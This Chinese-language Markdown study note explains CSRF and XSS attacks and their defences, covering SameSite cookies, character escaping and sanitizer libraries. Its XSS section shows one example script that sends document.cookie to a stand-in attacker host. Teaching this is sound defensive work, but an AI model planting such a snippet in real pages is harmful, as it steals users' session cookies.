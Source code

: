 # Safe
## CSRF
- Cross-site request forgery 跨站请求伪造
- CSRF 的过程
  - 用户登录了 `a.com` ，有了 cookie
  - 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
  - `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了
- CSRF 的预防
  - 严格的跨域请求限制
  - 为 cookie 设置 `SameSite` 不随跨域请求被发送
    - `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
    - SameSite=Strict Cookie 不能随着跳转链接跨站发送
    - SameSite=Lax 允许 GET/HEAD 等安全方法，但禁止 POST 跨站发送
  - 关键接口使用短信验证码等双重验证
## XSS
- Cross Site Scripting 跨站脚本攻击
- Xss 过程
  - 用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。
  - 该内容再显示时，这些代码也将会被执行，形成了攻击效果。
  ```html
  <!-- 例如用户提交的内容中有： -->
  <script>
      var img = document.createElement('img')
      img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
  </script>
  ```
- xss 预防：替换特殊字符（最简单的解决方式）
  ```js
  const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  ```
- 第三方工具
  - [DOMPurify](https://github.com/cure53/DOMPurify) HTML 清理(高)
  - [xss](https://jsxss.com/zh/index.html) XSS 过滤(中)
  - [escape-html](https://github.com/component/escape-html) HTML 转义(低)
- 现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
  - Vue `v-html`
  - React `dangerouslySetInnerHTML`
